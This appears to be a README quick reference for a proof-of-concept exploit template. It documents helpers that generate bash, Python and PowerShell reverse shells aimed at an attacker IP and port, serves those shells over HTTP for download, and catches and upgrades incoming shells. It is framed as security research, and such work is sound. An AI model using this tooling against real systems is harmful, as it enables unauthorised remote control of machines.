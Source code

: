# POC Utils Quick Reference

Quick reference for all utilities included in this POC template. These are designed for **speed and simplicity** in security research.

## Colored Output (`utils/output.py`)

Better visibility for your exploit output:

```python
from utils.output import out

out.success("Target vulnerable!")      # [+] Green
out.error("Connection failed")         # [-] Red
out.info("Starting exploit")           # [*] Blue
out.warning("Default creds")           # [!] Yellow
out.status("Extracting data...")       # [...] Cyan
out.debug("Response: 200 OK")          # [DEBUG] Magenta
```

## Reverse Shells (`utils/reverse_shells.py`)

Generate reverse shells dynamically with proper LHOST/LPORT:

```python
from utils.reverse_shells import *

# Generate shell files (written to payloads/shells/)
path = bash_shell("10.10.14.5", 4444)           # Returns: "shells/rev_bash.sh"
path = python_shell("10.10.14.5", 4444)         # Returns: "shells/rev_python.py"
path = powershell_shell("10.10.14.5", 4444)     # Returns: "shells/rev_powershell.ps1"

# Get one-liners (no file written)
cmd = python_oneliner("10.10.14.5", 4444)       # For direct RCE
cmd = powershell_oneliner("10.10.14.5", 4444)   # For Windows

# Quick helpers with instructions
quick_bash(args.lhost, 4444)     # Prints curl/wget commands
quick_python(args.lhost, 4444)   # Prints download instructions
```

Serve shells at: `http://YOUR-IP:8000/shells/rev_bash.sh`

## Shell Catcher (`utils/shell_catcher.py`)

Catch reverse shells directly in Python - no need for separate netcat!

```python
from utils.shell_catcher import ShellCatcher, auto_shell, quick_catch

# Method 1: Full control
catcher = ShellCatcher(4444)
catcher.start()                          # Start listener
trigger_exploit()                         # Your RCE
if catcher.wait_for_shell(timeout=30):   # Wait for connection
    catcher.stabilize()                   # Upgrade to PTY (automatic terminal sizing!)
    catcher.interact()                    # Full interactive shell with tab completion!

# Method 2: Context manager (recommended)
with auto_shell(4444) as catcher:
    trigger_exploit()
    if catcher.shell_caught:              # Auto-waits for shell
        catcher.stabilize()
        catcher.interact()                # Auto-uses raw mode after stabilize!

```